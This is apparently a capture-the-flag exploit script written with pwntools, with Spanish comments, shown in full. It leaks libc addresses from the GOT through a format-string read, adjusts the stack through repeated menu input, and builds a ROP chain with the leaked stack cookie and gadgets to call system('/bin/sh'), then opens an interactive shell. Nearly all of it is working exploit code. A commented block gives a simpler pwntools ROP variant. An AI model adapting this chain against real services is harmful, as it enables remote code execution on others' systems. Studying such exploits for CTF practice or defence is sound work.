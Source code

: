 ``` python3 
# 2.Obtener la direccion base de libc
def leak_got(sym):
    addr = stack_leak(b"%7$s".ljust(8, b"_") + p64(exe.got[sym]))
    addr = u64(addr[:6] + b"\x00\x00")
    return addr

puts_addr = leak_got("puts")
io.info(f"{leak_got("puts")=:x}")
""""
# Usado para encontrar la version de libc correcta en el remoto
io.info(f"{leak_got("printf")=:x}")
io.info(f"{leak_got("read")=:x}")
io.info(f"{leak_got("exit")=:x}")
""" 

libc.address = puts_addr - libc.sym.puts

# 3.Lanzar golpes al stack hasta dejarlo en 13
for i in range(29):
    io.sendlineafter(b"\n> ", b"3")


# 4.ROP
payload = cyclic(24)
payload += p64(cookie)
payload += cyclic(8)
payload += p64(libc.address+0x0000000000043047)  # pop rax; ret
payload += p64(libc.sym.system)                  
payload += p64(libc.address+0x000000000002d114)  # pop rdi; jmp rax

payload += p64(next(libc.search(b"/bin/sh")))    # rdi

""" 
# Otra forma mas sencilla usando el objeto rop
rop = ROP([exe, libc])
rop.raw(rop.ret.address)                             # Alinear el stack
rop.call("system", [next(libc.search(b"/bin/sh"))])

payload = flat(
    cyclic(24),
    p64(cookie),
    cyclic(8),
    rop.chain(),
)
"""


io.sendline(payload)
io.success("PWNED")
io.interactive()
```
